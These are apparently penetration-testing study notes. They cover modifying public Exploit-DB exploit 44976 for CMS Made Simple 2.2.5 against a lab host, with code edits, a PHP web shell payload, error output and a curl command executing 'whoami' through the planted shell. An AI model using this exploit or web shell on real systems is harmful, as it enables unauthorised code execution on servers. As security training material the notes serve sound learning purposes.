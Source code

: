 

Don't often result in memory corruption, therefore, they're not affected by DEP, ASLR, etc protections and exploits are significantly easier to re-purpose.  
  
However, public web app exploits don't take into account additional protections like htaccess, modsecurity, etc.  
  
Important to properly read code to understand what considerations must be taken in our editing process.  
Several key questions needed to ask while approaching the code:  
  
- Does it initiate an HTTP or HTTPS connection?  
- Does it access a web application specific path or route?  
- Does the exploit leverage a pre-authentication vulnerability?  
- If not, how does the exploit authenticate to the web application?  
- How are the GET or POST requests crafted to trigger and exploit the vulnerability?  
- Does it rely on default application settings (such as the web pathof the application) that may have been changed after installation?  
- Will oddities such as self-signed certificates disrupt the exploit?  
  
  
Ex:  
	During an assessment, we discover a Linux host w/ an _apache2_ server exposed.  
After enumerating the server, we find an install of _CMS Made Simple_ v2.2.5 listening on TCP port 443.  
```bash
dirb https://192.168.222.44
```

This version appears to be vuln to RCE & a public exploit is available on Exploit-DB (44976)  
  
The vuln's post-authentication, but we've discovered a valid app creds (admin/ HUYfaw763) on another machine during enum  
  
  
Looking at the code, things need to be updated:  
  
_Line 12_:  
```html
base_url = "http://192.168.1.10/cmsms/admin"
```
	Base URL variable needs to be changed to match the env  
	Same for the IP addr  
	Protocol needs to be set to HTTPS  
```html
base_url = "https://192.168.222.44/admin
```


Browsing to https://192.168.222.44/admin shows a Connection not Secure message:  
	_invalid security certificate_ (SEC_ERROR_UNKNOWN_ISSUER or ERROR_SELF_SIGNED_CERT)
![[self-signed.png]]

As the cert can't be validated, we must account for this in the exploit code.  
  
The exploit uses the _import requests_ library (_Line 9_) to comm w/ the target, making 3 POST requests.  
  
_Lines 34, 55, 80:_  
```python
response = requests.post(url, data=data, allow_redirects=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```


The official doc indicates that the SSL cert can be ignored if we set the _verify_ param to False: [https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification](https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification)  

```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
```


Also need to change the creds to match those found.  
  
_Lines 15 & 16:_  
```python
username = "admin"  
password = "HUYfaw763"
```


Payload doesn't need to be changed as it only executes sys cmds passed in cleartext w/in GET:  
_Lines 20-21:_  
```python
php_filename = 'shell.php'  
payload = "<?php system($_GET['cmd']);?>"
```


Running the script throws an error:  
```bash
[+] Authenticated successfully with the supplied credentials  
Traceback (most recent call last):  
  File "web_EDB-44976.py", line 103, in <module>  
run()  
  File "web_EDB-44976.py", line 94, in run  
cookies,csrf_token = authenticate()  
  File "web_EDB-44976.py", line 38, in authenticate  
return response.cookies, parse_csrf_token(response.headers['Location'])  
  File "web_EDB-44976.py", line 24, in parse_csrf_token  
return location.split(csrf_param + "=")[1]  
IndexError: list index out of range  
```


Shows an exception was triggered during the execution of the _parse_csrf_token_ on _Line 24_ of the code.  
	Tells us the code tried to access a non-existent element of a Python list by accessing its 2nd element:  
_Lines 18, 23-24:_  
```python
csrf_param = "__c"  
...  
def parse_csrf_token(location):  
return location.split(csrf_param + "=")[1]
```


Looking at the code, you can see it uses the _split_ method to slice the string sotred in the _location_ parameter passed to the _parse_csrf_token_ func.  
  
Python doc for _split_ indicates that the method slices the input string using an optional delimiter passed as a first argument.  
The string slices returned by _split_ are then stored in a _List_ object that can be accessed via an index.  
Ex:  
```python
python  
  
>>> mystr = "Kali*-*Linux*-*Rocks"  
>>> result = mystr.split("*-*")  
>>> result  
['Kali', 'Linux', 'Rocks']  
>>> result[1]  
'Linux'
```

 
To help troubleshoot, we can insert a _print_ statement in the function before the return instructions:  
```python
def parse_csrf_token(location):  
print "[+] String being split: " + location  
return location.split(csrf_param + "=")[1]
```


Running the exploit again will print the full string before the _split_ method is invoked:  
```bash
[+] String being split: https://192.168.222.44/admin?_sk_=178967e0c571882184a  
```


As discovered, while the code expected the input string for _csrf_param_ to be “\_\__c_”, but instead received “\_\_sk\_\_”  
  
So fixing the parameter corrects the exploit:  
_Line 18:_  
```python
csrf_param = "_sk_"
```


Fix:  
```bash
[+] File copied successfully  
[+] Exploit succeeded, shell can be found at: https://192.168.222.44/uploads/shell.php  
```


Now we can validate the exploit by attaching to the php shell either in the browser or w/ [curl](Cmdline%20Tools.md#curl):  
```bash
curl -k https://192.168.222.44/uploads/shell.php?cmd=whoami  
www-data
```